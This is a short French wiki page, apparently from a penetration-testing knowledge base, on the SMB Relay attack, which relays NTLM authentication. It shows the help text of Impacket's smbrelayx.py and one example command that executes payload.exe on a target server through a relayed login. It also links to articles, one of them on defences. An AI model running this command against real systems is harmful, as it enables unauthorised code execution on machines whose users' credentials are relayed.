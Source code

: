 ```yaml
---
title: SMB Relay
permalink: /SMB_Relay/
---
```


# SMB Relay

SMB Relay est une méthode d'attaque permettant de relayer une authentification NTLM pour s'authentifier auprès d'un service [SMB](/SMB "wikilink").

Outils
------

[Impacket](/Impacket "wikilink") propose un outil **smbrelayx.py**:

``` text
Impacket v0.9.13 - Copyright 2002-2015 Core Security Technologies

usage: smbrelayx.py [--help] [-h HOST] -e FILE
                    [-machine-account MACHINE_ACCOUNT]
                    [-machine-hashes LMHASH:NTHASH] [-domain DOMAIN]

For every connection received, this module will try to SMB relay that
connection to the target system or the original client

optional arguments:
  --help                show this help message and exit
  -h HOST               Host to relay the credentials to, if not it will relay
                        it back to the client
  -e FILE               File to execute on the target system
  -machine-account MACHINE_ACCOUNT
                        Domain machine account to use when interacting with
                        the domain to grab a session key for signing, format
                        is domain/machine_name
  -machine-hashes LMHASH:NTHASH
                        Domain machine hashes, format is LMHASH:NTHASH
  -domain DOMAIN        Domain FQDN or IP to connect using NETLOGON
```

Une utilisation simple est la suivante:

``` bash
smbrelayx.py -e payload.exe -h 10.33.1.1
```

Ceci executera le fichier payload.exe sur le serveur 10.33.1.1 si l'utilisateur qu'on relaie a les droits nécessaires.

Références
----------

### Liens externes

-   [SMBRelay avec python sur SANS](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [SMB Relay sur carnal0wnage](http://carnal0wnage.attackresearch.com/2012/11/windows-7-and-smb-relay.html)
-   [Méthodes de défense sur skullsecurity](https://blog.skullsecurity.org/2008/ms08-068-preventing-smbrelay-attacks)
-   [MS08_068 + MS10_046 = FUN UNTIL 2018](http://room362.com/post/2012/2012-02-11-ms08_068-ms10_046-fun-until-2018/)



